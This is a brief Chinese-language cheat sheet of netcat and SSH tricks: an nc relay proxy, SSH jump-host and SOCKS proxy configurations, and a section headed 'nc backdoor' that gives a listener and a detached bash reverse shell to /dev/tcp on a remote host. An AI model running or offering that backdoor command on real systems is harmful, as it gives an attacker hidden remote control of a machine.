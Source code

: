# nc proxy server

```
# 開一個命名管道
mkfifo x

# 用nc 當 proxy
nc -k -l 127.0.0.1 8000 <x | nc [targt host]:[port] >x

# 用curl 指定nc proxy
curl -x 127.0.0.1:8000 [target host]:[port]
```

# nc backdoor
```
# remote control server 
$ sudo nc -nvlp 443 

# local conn tty
nohup /usr/bin/env -i /bin/bash 2>/dev/null — norc — noprofile >& /dev/tcp/[remote server ip]/443 0>&1 &
```

# ssh config 用nc 當proxy

[參考](https://shazi.info/%E5%88%A9%E7%94%A8ssh-proxycommand%E5%8F%8Anc%E5%81%9A%E8%B7%B3%E6%9D%BF%E7%9A%84%E9%80%A3%E7%B7%9A%E6%87%89%E7%94%A8/)
```
# 透過跳板(ssh server) 連其他server
# .ssh/config

Host alias
    Hostname real.host
    User username
    ForwardAgent yes
    Port 22
    ProxyCommand ssh [user]@[ssh server] -p [ssh server port] nc %h %p

# 備註: 可以串多台
```

```
# 透過ssh server 當http proxy
# .ssh/config

ssh -fND 127.0.0.1:8000 [ssh server]

ssh -o ProxyCommand='nc -X 5 -x 127.0.0.1:8000 %h %p' [ssh server]
```
